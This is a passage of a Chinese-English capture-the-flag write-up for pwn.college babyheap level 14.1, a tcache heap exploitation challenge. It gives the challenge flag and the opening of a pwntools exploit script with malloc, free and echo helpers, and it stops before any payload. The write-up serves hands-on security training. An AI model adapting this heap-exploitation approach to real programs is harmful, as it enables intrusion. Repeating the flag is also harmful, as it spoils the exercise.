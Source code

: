 ## Flag

:spoiler[`pwn.college{wQRsnVfxcvBTDBM8-XLGPXFLyGF.01N5MDL5cTNxgzW}`]

# Level 14.1

## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to obtain the flag.

## Write-up

参见 [Level 14.0](#level-140)。

:::important
Theres a [golden meme](https://cdn.discordapp.com/attachments/750836456813101130/1293074901070118942/8mb.video-xK2-TmDcop4s.mp4?ex=68e5ef58&is=68e49dd8&hm=cec4f1c226f3911a933727a3d35ae974ce2491355f662a554d34fada240b9bed&), also, ask this man `isspace`。
:::

~_总结，热心群友们个个都是谜语大师，相信他们给出的 tips 绝对是正确，够用的 xD_~

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level14.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def echo(idx, offset):
    target.sendlineafter(b": ", b"echo")
```